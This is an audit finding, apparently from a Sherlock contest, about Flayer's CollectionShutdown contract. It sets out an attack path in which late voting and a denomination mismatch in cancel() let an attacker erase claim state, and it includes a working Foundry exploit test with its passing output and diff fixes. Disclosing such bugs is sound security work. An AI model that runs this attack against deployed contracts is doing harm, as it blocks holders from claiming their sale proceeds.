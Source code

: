 Vast Umber Walrus

High

# The attacker will prevent eligible users from claiming the liquidated balance

### Summary

The `CollectionShutdown` contract has vulnerabilities allowing a malicious actor to prevent eligible users from claiming the liquidated balance after liquidation by `SudoSwap`.

### Root Cause

* The [`CollectionShutdown::vote()`](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/utils/CollectionShutdown.sol#L175-L181) does not prevent voting after the collection shutdown is executed and/or during the claim state, allowing malicious actors to trigger `canExecute` to `TRUE` after execution.
* The [`CollectionShutdown::cancel()`](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/utils/CollectionShutdown.sol#L390-L405) does not use `params.collectionToken` to retrieve the `denomination()` for validating the total supply during cancellation, which opens the door to manipulations that can bypass the checks.

### Internal pre-conditions

1. The collection token total supply must be within a valid limit for the shutdown condition (e.g., less than or equal to `MAX_SHUTDOWN_TOKENS`).
2. The `denomination` of the collection token for the shutdown collection is greater than 0.

### External pre-conditions

1. The attacker holds some portion of the collection token supply for the shutdown collection.

### Attack Path

#### Pre-condition: 
1. Assume the collection token (CT) total supply is 4 CTs (`4 * 1e18 * 10 ** denom`).
2. There are 2 holders of this supply: **Lewis (2 CTs)** and **Max (2 CTs)**.

#### Attack:
1. Lewis notices that the collection can be shutdown and calls `CollectionShutdown::start()`.
    * `totalSupply` meets the condition `<= MAX_SHUTDOWN_TOKENS`.
    * `params.quorumVotes` = 50% of totalSupply = `2 * 1e18 * 1eDenom` (2 CTs).
    * Vote for Lewis is recorded.
    * The contract transfer 2 CTs of Lewis balances, and `params.shutdownVotes += 2 CTs`.
    * Now `params.canExecute` is flagged to be `TRUE` since `params.shutdownVotes (2CTs) >= params.quorumVotes (2 CTs)`.

2. Time passes, no cancellation occurs, and the owner executes the pending shutdown.
    * The NFTs are liquidated on SudoSwap.
    * `params.quorumVotes` remains the same as there is no change in supply.
    * The collection is sunset in the `Locker`, deleting `_collectionToken[_collection]` and `collectionInitialized[_collection]`.
    * `params.canExecute` is flagged back to `FALSE`.

**After some or all NFTs are sold on SudoSwap:**

3. Max monitors the NFT sales and prepares for the attack.
4. Max splits their balance of CTs to his another wallet and remains holding a small amount to perform the attack.
5. Max, who never voted, calls `CollectionShutdown::vote()` to **flag `params.canExecute` back to `TRUE`**.
    * The contract transfer small amount of CTs of Max balances.
    * Since `params.shutdownVotes >= params.quorumVotes` (due to Lewis' shutdown), `params.canExecute` is set back to `TRUE`.

6. Max registers the target collection again, manipulating the token's `denomination` via the `Locker::createCollection()`.
    * Max specifies a `denomination` lower than the previous one (e.g., previously 4, now 0).
    
7. Max invokes `CollectionShutdown::cancel()` to remove all properties of `_collectionParams[_collection]`, including `_collectionParams[].availableClaim`.
    * The following check passes:
    ```solidity
    File: CollectionShutdown.sol
    398:         if (params.collectionToken.totalSupply() <= MAX_SHUTDOWN_TOKENS * 10 ** locker.collectionToken(_collection).denomination()) {
    399:             revert InsufficientTotalSupplyToCancel();
    400:         }
    ```
    * Since the new denomination is 0, the check becomes:
    ```solidity
    (4 * 1e18 * 10 ** 4) <= (4 * 1e18 * 10 ** 0): FALSE
    ```
**Result**: This check passes, allowing Max to cancel and prevent Lewis from claiming their eligible ETH from SudoSwap.

### Impact

The attack allows a malicious actor to prevent legitimate token holders from claiming their eligible NFT sale proceeds from SudoSwap. This could lead to significant financial losses for affected users.

### PoC

#### Setup
* Update the [`CollectionShutdown.t::constructor()`](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/test/utils/CollectionShutdown.t.sol#L35) to mint CTs token with denominator more that 0
```diff
File: CollectionShutdown.t.sol
29:     constructor () forkBlock(19_425_694) {
30:         // Deploy our platform contracts
31:         _deployPlatform();
---
-35:         locker.createCollection(address(erc721b), 'Test Collection', 'TEST', 0);
+35:         locker.createCollection(address(erc721b), 'Test Collection', 'TEST', 4);
36: 
```
* Put the snippet below into the protocol test suite: `flayer/test/utils/CollectionShutdown.t.sol` 
* Run test: 
```bash
forge test --mt test_CanBlockEligibleUsersToClaim -vvv
```

#### Coded PoC
<details>
  <summary>Show Coded PoC</summary>

```solidity
        function test_CanBlockEligibleUsersToClaim() public {
        address Lewis = makeAddr("Lewis");
        address Max = makeAddr("Max");
        address MaxRecovery = makeAddr("MaxRecovery");

        // -- Before Attack --
        
        // Mint some tokens to our test users -> totalSupply: 4 ethers (can shutdown)
        vm.startPrank(address(locker));
        collectionToken.mint(Lewis, 2 ether * 10 ** collectionToken.denomination());
        collectionToken.mint(Max, 2 ether * 10 ** collectionToken.denomination());
        vm.stopPrank();

        // Start shutdown with their vore that has passed the threshold quorum
        vm.startPrank(Lewis);
        uint256 lewisVoteBalance = 2 ether * 10 ** collectionToken.denomination();
        collectionToken.approve(address(collectionShutdown), type(uint256).max);
        collectionShutdown.start(address(erc721b));
        assertEq(collectionShutdown.shutdownVoters(address(erc721b), address(Lewis)), lewisVoteBalance);
        vm.stopPrank();

        // Confirm that we can now execute
        assertCanExecute(address(erc721b), true);

        // Mint NFTs into our collection {Locker} and process the execution
        uint[] memory tokenIds = _mintTokensIntoCollection(erc721b, 3);
        collectionShutdown.execute(address(erc721b), tokenIds);

        // Confirm that the {CollectionToken} has been sunset from our {Locker}
        assertEq(address(locker.collectionToken(address(erc721b))), address(0));

        // After we have executed, we should no longer have an execute flag
        assertCanExecute(address(erc721b), false);

        // Mock the process of the Sudoswap pool liquidating the NFTs for ETH. This will
        // provide 0.5 ETH <-> 1 {CollectionToken}.
        _mockSudoswapLiquidation(SUDOSWAP_POOL, tokenIds, 2 ether);

        // Ensure that all state are SET
        ICollectionShutdown.CollectionShutdownParams memory shutdownParamsBefore = collectionShutdown.collectionParams(address(erc721b));
        assertEq(shutdownParamsBefore.shutdownVotes, lewisVoteBalance);
        assertEq(shutdownParamsBefore.sweeperPool, SUDOSWAP_POOL);
        assertEq(shutdownParamsBefore.quorumVotes, lewisVoteBalance);
        assertEq(shutdownParamsBefore.canExecute, false);
        assertEq(address(shutdownParamsBefore.collectionToken), address(collectionToken));
        assertEq(shutdownParamsBefore.availableClaim, 2 ether);

        // -- Attack --
        uint256 balanceOfMaxBefore = collectionToken.balanceOf(address(Max));
        uint256 amountSpendForAttack = 1;

        // Transfer almost full funds to their second account and perform with small amount
        vm.prank(Max);
        collectionToken.transfer(address(MaxRecovery), balanceOfMaxBefore - amountSpendForAttack);
        uint256 balanceOfMaxAfter = collectionToken.balanceOf(address(Max));
        assertEq(balanceOfMaxAfter, amountSpendForAttack);

        // Max votes even it is in the claim state to flag the `canExecute` back to Trrue
        vm.startPrank(Max);
        collectionToken.approve(address(collectionShutdown), type(uint256).max);
        collectionShutdown.vote(address(erc721b));
        assertEq(collectionShutdown.shutdownVoters(address(erc721b), address(Max)), amountSpendForAttack);
        vm.stopPrank();

        // Confirm that Max can now flag `canExecute` back to `TRUE`
        assertCanExecute(address(erc721b), true);

        // Attack to delete all varaibles track, resulting others cannot claim thier eligible ethers
        vm.startPrank(Max);
        locker.createCollection(address(erc721b), 'Test Collection', 'TEST', 0);
        collectionShutdown.cancel(address(erc721b));
        vm.stopPrank();

        // Ensure that all state are DELETE
        ICollectionShutdown.CollectionShutdownParams memory shutdownParamsAfter = collectionShutdown.collectionParams(address(erc721b));
        assertEq(shutdownParamsAfter.shutdownVotes, 0);
        assertEq(shutdownParamsAfter.sweeperPool, address(0));
        assertEq(shutdownParamsAfter.quorumVotes, 0);
        assertEq(shutdownParamsAfter.canExecute, false);
        assertEq(address(shutdownParamsAfter.collectionToken), address(0));
        assertEq(shutdownParamsAfter.availableClaim, 0);

        // -- After Attack --
        vm.expectRevert();
        vm.prank(Lewis);
        collectionShutdown.claim(address(erc721b), payable(Lewis));
    }
```
</details>

#### Result
Results of running the test:
```bash
Ran 1 test for test/utils/CollectionShutdown.t.sol:CollectionShutdownTest
[PASS] test_CanBlockEligibleUsersToClaim() (gas: 1491640)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 10.96s (3.48ms CPU time)

Ran 1 test suite in 11.17s (10.96s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

### Mitigation

* Add validations to prevent manipulation of the CT denomination, and restrict voting during the claim state to prevent re-triggering of `params.canExecute`.
```diff
function vote(address _collection) public nonReentrant whenNotPaused {
    // Ensure that we are within the shutdown window
    CollectionShutdownParams memory params = _collectionParams[_collection];
    if (params.quorumVotes == 0) revert ShutdownProccessNotStarted();
+   if (params.sweeperPool != address(0)) revert ShutdownExecuted();
    _collectionParams[_collection] = _vote(_collection, params);
}
```

* Update the usage of token denomination to use the token depens on the tracked token to inconsisten value.
```diff
function cancel(address _collection) public whenNotPaused {
    // Ensure that the vote count has reached quorum
    CollectionShutdownParams memory params = _collectionParams[_collection];
    if (!params.canExecute) revert ShutdownNotReachedQuorum();

    // Check if the total supply has surpassed an amount of the initial required
    // total supply. This would indicate that a collection has grown since the
    // initial shutdown was triggered and could result in an unsuspected liquidation.
-    if (params.collectionToken.totalSupply() <= MAX_SHUTDOWN_TOKENS * 10 ** locker.collectionToken(_collection).denomination()) {
+    if (params.collectionToken.totalSupply() <= MAX_SHUTDOWN_TOKENS * 10 ** params.collectionToken.denomination()) {
        revert InsufficientTotalSupplyToCancel();
    }

    // Remove our execution flag
    delete _collectionParams[_collection];
    emit CollectionShutdownCancelled(_collection);
}
```